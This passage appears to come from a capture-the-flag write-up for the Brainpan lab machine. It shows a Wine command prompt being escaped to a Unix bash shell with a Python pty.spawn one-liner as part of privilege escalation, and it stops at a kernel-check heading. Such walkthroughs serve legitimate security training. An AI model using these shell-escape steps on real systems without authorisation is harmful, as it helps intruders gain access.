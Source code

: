 
## Privilege Escalation

### Escape wine to get user

At the punk folder, I saw a script named `checksrv.sh`

![](images/19.png)

``` txt
Z:\home\puck>type checksrv.sh                                                                                                                                               
#!/bin/bash                                                                                                                                                                 
# run brainpan.exe if it stops                                                                                                                                              
<snip>
        cd /home/puck/web
        /usr/bin/python -m SimpleHTTPServer 10000
fi
```

Python was installed in the Unix machine with full path "/usr/bin/python".

Let's create a bash shell with python to access to Unix machine.

``` bash
Z:\home\puck>/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"

puck@brainpan:~$ id
id
uid=1002(puck) gid=1002(puck) groups=1002(puck)
puck@brainpan:~$ whoami
whoami
puck
puck@brainpan:~$ pwd
pwd
/home/puck
puck@brainpan:~$
```

### Kernel check
